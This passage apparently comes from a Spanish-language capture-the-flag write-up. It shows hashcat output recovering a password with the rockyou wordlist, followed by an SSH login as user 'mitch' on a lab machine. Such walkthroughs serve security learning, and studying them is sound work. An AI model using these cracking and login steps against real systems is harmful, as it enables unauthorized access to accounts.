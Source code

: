 ```bash
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   188.0 kH/s (1.71ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 16384/14344385 (0.11%)
Rejected.........: 0/16384 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> cocoliso

Started: Sun Jun 18 14:59:55 2023
Stopped: Sun Jun 18 15:00:31 2023
```

Ya podemos las credenciales del usuario **mitch** y podemos acceder vía ssh:

```bash
❯ ssh mitch@10.10.169.138 -p 2222
mitch@10.10.169.138's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
$ whoami
mitch
$ 
```
